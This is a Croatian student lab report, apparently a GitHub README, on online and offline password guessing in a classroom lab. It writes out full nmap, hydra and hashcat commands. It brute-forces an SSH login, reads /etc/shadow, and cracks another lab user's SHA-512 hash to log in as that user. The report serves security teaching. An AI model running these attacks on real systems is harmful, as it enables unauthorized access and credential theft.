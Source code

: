 # Laboratorijske vježbe 5- Online & Offline Password Guessing Attacks

**Online Password Guessing**

Najprije smo otvorili bash shell i pingali localni server.

`ping a507-server.local`

Instalirali smo nmap i u bashu upisali odgovarajuće naredbe:

```
sudo apt-get update
sudo apt-get install nmap

nmap
```

Naredbom `nmap -v 10.0.15.0/28` odredili smo doseg IP adresa.

S web adrese [http://a507-server.local/](http://a507-server.local/) sam pronašla svoj docker container i ime, a pomoću tih podataka, preko ssh sam se spojila na isti.

`ssh strinic_ela@10.0.15.8`

Nakon toga više puta unosim lozinku, ali dolazim do zaključka da sustav nema limit rate, odnosno da je idealan za online attack.

Lozinka je sastavljena od 4-6 malih slova engleske abecede (ukupno 26 slova), a to znači da ima cca 2^29 kombinacija.

Pomoću hydre, pokušavamo brute-force-at lozinku:

```

hydra -l strinic_ela -x 4:6:a 10.0.15.8 -V -t 4 ssh
```

Stanje nakon toga je:

64 pokušaja/min. To bi značilo da nam je potrebno cca 8 godina da bismo probili lozinku. Izuzetno neprihvatljivo i neisplativo pa koristimo predefinirani dictionary kojeg dohvaćamo sa servera: 

`wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g5/`

Dictionary proslijeđujemo hydri:

`hydra -l strinic_ela -P dictionary/g5/dictionary_online.txt 10.0.15.8 -V -t 4 ssh`

Dictionary ima preko 870 lozinki. Kada sam pronašla svoju, pristupila sam containeru i s lokalnog se spojila na remote računalo.

**Offline Password Guessing**

Sada kada imam pristup remote računalu, želim pronaći tuđu lozinku.

Najprije sam pronašla folder gdje se nalaze hashirane lozinke.

`sudo /etc/shadow`

Kopirala sam hash vrijednost lozinke korisnika jean_doe i spremila je u file imena hash.txt.

`hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10`

Kako je potrebno dosta vremena za brute-force-anje, koristimo predefinirani dictionary.

`hashcat --force -m 1800 -a 0 hash.txt dictionary/g5/dictionary_offline.txt --status --status-timer 10`

Kada je hashcat dohvatio lozinku, uspješno sam se povezala na računalo  korisnika jean_doe.